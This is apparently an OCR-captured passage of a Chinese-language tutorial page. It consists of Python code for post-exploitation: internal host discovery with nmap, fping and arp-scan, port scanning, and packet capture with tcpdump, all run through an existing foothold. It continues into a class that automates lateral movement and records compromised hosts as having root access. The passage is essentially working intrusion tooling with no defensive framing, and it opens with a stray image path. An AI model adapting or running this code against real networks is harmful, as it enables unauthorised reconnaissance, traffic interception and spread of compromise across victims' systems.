 ```python
        
        return results
    
    def _discover_hosts(self):
        """发现内网主机"""
        discovery_commands = [
            "nmap -sn 192.168.1.0/24",  # 需要目标有nmap
            "fping -a -g 192.168.1.0/24 2>/dev/null",
            "arp-scan --localnet"
        ]
        
        for cmd in discovery_commands:
            try:
                result = self.exploit.run(cmd)
                if result and "192.168" in result:
                    return self._parse_discovery_output(result)
            except:
                continue
        
        return []
    
    def _port_scan(self):
        """端口扫描关键服务"""
        common_ports = "21,22,23,80,443,8080,8443"
        return self.exploit.run(f"nmap -p {common_ports} 192.168.1.0/24")
    
    def _capture_traffic(self):
        """短暂流量捕获"""
        self.exploit.run("timeout 30 tcpdump -i any -w /tmp/capture.pcap &")
        time.sleep(35)
        # 下载捕获文件进行分析
```

### 2. 横向移动自动化

```python
class LateralMovement:
    """横向移动自动化"""
    
    def __init__(self, initial_exploit):
        self.initial_exploit = initial_exploit
        self.compromised_hosts = []
    
    def automated_lateral_move(self, target_network):
        """自动化横向移动"""
        # 从初始立足点开始
        self.compromised_hosts.append({
            'ip': self.initial_exploit.target,
            'access_level': 'root',
            'method': 'initial'
        })
        
        # 发现新目标
        new_targets = self._discover_targets(target_network)
        
        for target in new_targets:
            if self._attempt_compromise(target):
                print(f"[+] Successfully compromised {target}")
                self.compromised_hosts.append({
                    'ip': target,
                    'access_level': 'root', 
                    'method': 'lateral'
                })
```